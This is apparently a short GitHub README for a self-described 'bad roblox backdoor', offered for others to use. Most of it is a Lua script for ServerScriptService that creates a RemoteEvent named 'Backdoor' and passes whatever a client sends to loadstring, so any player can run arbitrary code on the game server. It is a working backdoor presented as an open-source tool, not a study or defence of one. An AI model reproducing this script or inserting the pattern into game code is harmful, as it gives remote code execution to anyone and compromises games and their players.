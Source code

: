 # KibbolBacj
A bad roblox backdeer 
this backdoor is open source and made by myself 😳
if you wanna use this
just put this script in ServerScriptService
local server = Instance.new("RemoteEvent", game.ReplicatedStorage)
server.Name = "Backdoor" -- or you can make it anything
server.OnServerEvent:Connect(function(player, SS)
    loadstring(SS)()
end)
